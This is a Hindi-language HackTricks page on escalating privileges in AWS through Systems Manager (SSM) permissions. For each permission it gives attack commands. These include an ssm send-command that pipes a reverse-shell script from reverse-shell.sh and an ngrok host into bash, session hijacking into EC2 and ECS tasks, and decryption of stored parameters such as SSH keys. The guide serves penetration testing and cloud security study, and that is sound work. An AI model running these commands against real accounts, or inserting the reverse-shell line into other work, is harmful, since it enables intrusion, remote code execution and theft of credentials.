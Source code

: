 # AWS - SSM Privesc

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

एक हमलावर जिसके पास **`ssm:SendCommand`** अनुमति है, वह Amazon SSM Agent चला रहे **इंस्टेंसेस में कमांड्स निष्पादित कर सकता है** और उसमें चल रहे **IAM Role को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** SSM Agents के साथ चल रहे उदाहरणों में जुड़े EC2 IAM भूमिकाओं के लिए सीधा privesc।

### `ssm:StartSession`

एक हमलावर जिसके पास **`ssm:StartSession`** अनुमति है, वह Amazon SSM Agent चला रहे उदाहरणों में **SSH जैसा सत्र शुरू कर सकता है** और उसमें चल रही **IAM भूमिका को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
**संभावित प्रभाव:** SSM Agents चलाने वाले इंस्टेंसेस से जुड़े EC2 IAM रोल्स तक सीधा प्रिवेस्क.

#### ECS में प्रिवेस्क

जब **ECS टास्क्स** **`ExecuteCommand` सक्षम** के साथ चलते हैं, पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **कमांड निष्पादित** कर सकते हैं।\
[**दस्तावेज़ीकरण के अनुसार**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) यह SSM Session Manager के साथ आपके डिवाइस और लक्ष्य कंटेनर के बीच एक सुरक्षित चैनल बनाकर किया जाता है।\
इसलिए, `ssm:StartSession` अनुमति वाले उपयोगकर्ता उस विकल्प को सक्षम करने वाले ECS टास्क्स के अंदर **शेल प्राप्त कर सकते हैं** बस निम्नलिखित चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**संभावित प्रभाव:** `ECS` IAM भूमिकाओं के साथ चल रहे कार्यों में `ExecuteCommand` सक्षम होने के साथ सीधे privesc।

### `ssm:ResumeSession`

**`ssm:ResumeSession`** अनुमति वाला हमलावर **एक SSH जैसे सत्र को पुनः आरंभ कर सकता है** जो Amazon SSM Agent के साथ चल रहे instances में एक **डिस्कनेक्टेड** SSM सत्र स्थिति के साथ है और उसमें चल रहे **IAM Role को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** SSM Agents के साथ चल रहे इंस्टेंसेज और डिस्कनेक्टेड सेशन्स के साथ जुड़े EC2 IAM रोल्स तक सीधी privesc।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उल्लिखित अनुमतियों वाला एक हमलावर **SSM पैरामीटर्स** की सूची बना पाएगा और उन्हें **स्पष्ट-पाठ में पढ़** सकेगा। इन पैरामीटर्स में आप अक्सर **संवेदनशील जानकारी** जैसे SSH कीज या API कीज पा सकते हैं।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर्स के अंदर संवेदनशील जानकारी ढूंढें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर सभी **कमांड्स** की सूची बना सकता है और आशा करता है कि उनमें **संवेदनशील जानकारी** मिल सकती है।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के अंदर संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों वाला हमलावर सभी **कमांड्स** की सूची बना सकता है और **आउटपुट पढ़ सकता है** जिससे उम्मीद है कि उसमें **संवेदनशील जानकारी** मिल सकती है।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइन्स के आउटपुट में संवेदनशील जानकारी खोजें।

### Codebuild

आप SSM का उपयोग करके एक codebuild प्रोजेक्ट के अंदर भी प्रवेश कर सकते हैं जो बनाया जा रहा है:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
